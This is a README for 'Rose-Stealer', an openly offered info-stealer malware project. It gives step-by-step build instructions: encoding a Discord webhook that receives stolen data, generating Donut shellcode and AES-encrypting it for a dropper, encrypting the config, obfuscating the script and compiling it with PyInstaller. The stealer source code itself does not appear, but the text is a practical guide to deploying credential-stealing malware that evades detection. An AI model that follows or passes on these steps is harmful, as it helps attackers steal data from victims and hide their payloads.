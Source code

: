 # 🐍 Rose-Stealer
## Rewritten version of the rose malware family.

> [!CAUTION]
> If you don't trust it, read the source.

> [!IMPORTANT]
> This is a small rewritten version for the rose implant.
> I don't provide support for this. You should know what you're doing.

## Requirements
- [Python 3.10+](https://python.org/downloads)
- Python-Libs installed (`pip install -r assets\requirements.txt`)

## Setup
#### [Download](https://github.com/0xRose/Rose-Stealer/archive/refs/heads/main.zip) the source code of this repository.
- Encode your Discord Webhook: `python utils\b85_encode.py DISCORD_WEBHOOK`
  - Place the output in the config.ini file
  ```ini
  [main]
  # base 85 encoded and hexified discord webhook
  discord_webhook=DISCORD_WEBHOOK <--- Put the encoded webhook here
  ```
- File dropper if wanted:
  - generate shellcode with [Donut](https://github.com/TheWover/donut) for an executable file to e.g. `shellc.dat`
  - AES encrypt the shellcode file:
    - `python utils\aes_encrypt.py client\shellc.dat client\shellc.aes`
    - Copy the output key into your config.ini file like this:
    ```ini
    [shellcode_loader]
    # file path storing AES encrypted and compressed shellcode
    shellcode_file_name=shellc.aes
    # hexified 32 byte (128-bit AES key)
    shellcode_key=AES_KEY <--- Put the AES key here
    ```
- Now encrypt the config file:
  - `python utils\aes_encrypt.py client\config.ini client\config.aes`
  - Put the output key you received into the [malware source code](https://github.com/0xRose/Rose-Stealer/blob/main/client/main.py) on line 380:
    ```py
    key = "AES_KEY"  # hexified 32 byte key (128-bit)
    ```
(Additionally i would recommend to add obfuscation on the script now.)
- You can now compile it into a binary: `pyinstaller --onefile --add-data "client\shellc.aes;." --add-data "client\config.aes;." --hidden-import cryptography --hidden-import pywin32 --hidden-import pillow --hidden-import aiohttp client\main.py`
